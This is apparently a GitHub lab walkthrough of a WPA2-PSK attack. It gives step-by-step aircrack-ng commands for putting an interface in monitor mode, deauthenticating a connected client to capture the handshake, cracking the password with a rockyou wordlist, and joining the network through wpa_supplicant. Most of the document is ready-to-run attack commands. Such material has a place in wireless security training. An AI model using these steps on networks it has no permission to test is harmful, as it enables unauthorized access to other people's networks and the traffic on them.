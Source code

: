 # 🛡️ WPA2-PSK Attack
## Time to perform the attack: 7 minutes

## ⚙️ Initial Setup

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

Monitor mode enabled on `wlan0mon`.

---

## 🔍 Scan for Targets

Since WPA2 works both on 2,4Ghz and 5Ghz, check what access points (APs) are active on those frequencies.

**To recognize them check for WPA2-PSK and Cipher CCMP**

```bash
sudo airodump-ng  --band abg wlan0mon
```

From here, identify
- BSSID
- Channel
- ESSID
- Clients

Use TAB and M key to highlight the each APs in order to check also associated clients. 

Ideally we want to attack some AP that has already clients connected to it.

Finally, check the channel where the AP is working and run again to get a cleaner output 

```bash
channel=6
sudo airodump-ng -c ${channel} wlan0mon
```

---

## 🎯 Capture Handshake

It's time to Capture the Handshake and for this we'll capture an **authentication handshake**.

**NOTE:** **WPA2 doesn’t reuse IVs as WEP does**. It uses a secure 4-way handshake to derive session keys.

The attack focuses on capturing this handshake, which occurs only when a client **connects** to the network.

The handshake contains hashed information that can be brute-forced **offline** if the password is weak.

So, we send deauthentication frames to a connected client. The client is forced to disconnect and reconnect. The handshake is captured. BOOM!

📌 It's important to understand that deauth doesn’t flood traffic; it simply forces a re-authentication to trigger the handshake.

Let's do it:

```bash
mkdir WPA2
cd WPA2
channel=6
dumpfile='dump-wpa'
bssid='F0:9F:C2:71:22:12'
client='28:6C:07:6F:F9:43'
essid='wifi-mobile'

sudo airodump-ng -c ${channel}  -w ${dumpfile} --output-format pcap,csv --essid ${essid} --bssid ${bssid} wlan0mon
```
Keep this running! **You're sniffing for the WPA handshake**.

---

## 💣 Force Handshake with Deauth

In a second terminal tab.
Send a deauthentication frame to the choosen client.
In this case it will try to re-authenticate again during our capture.

```bash
bssid='F0:9F:C2:71:22:12'
client='28:6C:07:6F:F9:43'
essid='wifi-mobile'

sudo aireplay-ng -0 1 -e ${essid} -a ${bssid} -c ${client}  wlan0mon
```
This forces the client to disconnect and reconnect, generating the handshake.
At this point come back to terminal 1 and check if a WPA handshake is captured.

---

## 👁️ Confirm Handshake

In the top-right corner of `airodump-ng`output, look for:

```bash
WPA handshake: <BSSID>
```

If you get it, press CTRL+C to stop airodump. 
Also, stop monitoring on wlan0mon:

```bash
sudo airmon-ng stop wlan0mon
```
---

## 🔓 Crack the Password

```bash
wordlist='rockyou.txt'
dumpfile='dump-wpa'
bssid='F0:9F:C2:71:22:12'
essid='wifi-mobile'

aircrack-ng -w ${wordlist} -e ${essid} -b ${bssid} ${dumpfile}-01.cap
```

**Substitute `john wordlist` with rockyou.txt if needed.**

---

## 🔌 Connect Using wpa_supplicant

### wpa2.conf

Let's create a network configuration file.

```bash
wpa_key='starwars1'
bssid='F0:9F:C2:71:22:12'
essid='wifi-mobile'

cat << EOF > /tmp/wpa.conf
  network={
         ssid="${essid}"
         key_mgmt=WPA-PSK
         psk="${wpa_key}"
         priority=100
         bssid=${bssid}
        }
EOF
```
We'll use this network configuration file with the tool ‘wpa_suppliant’ and connect to the target WPA2 network.

### Launch connection

In one terminal:
```bash
sudo wpa_supplicant -i wlan0 -c /tmp/wpa.conf
```

In another terminal:
```bash
sudo dhclient wlan0 -v
```
---

## ✅ Confirm Network Access

```bash
target=192.168.2.1
curl http://${target}/proof.txt
```

Look for an assigned `inet` IP like:

```
inet 192.168.2.48/24 brd 192.168.2.255 scope global dynamic wlan0
```

You're inside the network.

---

Next up: PMKID attacks! 
